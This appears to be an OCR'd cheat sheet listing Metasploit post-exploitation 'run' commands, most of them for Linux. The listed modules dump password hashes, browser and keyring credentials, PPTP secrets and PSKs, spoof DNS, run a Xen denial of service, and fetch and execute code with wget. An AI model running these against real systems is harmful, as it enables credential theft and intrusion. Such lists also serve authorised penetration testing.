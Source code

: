 run post/multi/gather/firefox_creds

run post/multi/gather/ubiquiti_unifi_backup


run post/multi/recon/multiport_egress_traffic


run post/multi/sap/smdagent_get_properties

## Linux Modules

run post/linux/busybox/enum_connections



run post/linux/gather/hashdump

run post/linux/busybox/enum_hosts

run post/linux/gather/enum_configs



run post/linux/busybox/jailbreak

run post/linux/gather/enum_containers



run post/linux/busybox/ping_net

run post/linux/gather/enum_nagios_xi



run post/linux/busybox/set_dmz

run post/linux/gather/pptpd_chap_secrets

run post/linux/busybox/set_dns

run post/linux/gather/enum_protections

run post/linux/gather/tor_hiddenservices

run post/linux/busybox/smb_share_root

run post/linux/gather/enum_psk

run post/linux/manage/dns_spoofing

run post/linux/busybox/wget_exec

run post/linux/dos/xen_420_dos

run post/linux/manage/geutebruck_post_exp



run post/linux/gather/gnome_commander_creds

run post/linux/gather/gnome_keyring_dump

run post/linux/gather/ecryptfs_creds

run post/linux/gather/haserl_read
